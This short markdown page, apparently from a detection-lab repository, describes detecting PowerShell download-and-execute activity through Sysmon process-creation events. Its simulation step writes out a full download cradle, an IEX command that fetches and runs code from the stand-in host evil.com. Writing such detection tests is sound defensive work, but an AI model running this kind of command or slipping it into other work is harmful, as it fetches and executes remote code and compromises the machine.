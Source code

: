 # 📥 remote threat

**Purpose:**  
Detects PowerShell commands used to download & execute payloads remotely.

**Simulation Steps:**  
- Run: `powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/mal')"`
- Look for encoded commands or suspicious URLs
- Trigger via Sysmon Event ID 1 (Process Creation)

**Screenshot:**  
![Image](https://github.com/user-attachments/assets/1c2c760e-b4bf-4c81-833e-d76d9dbb7e19) 


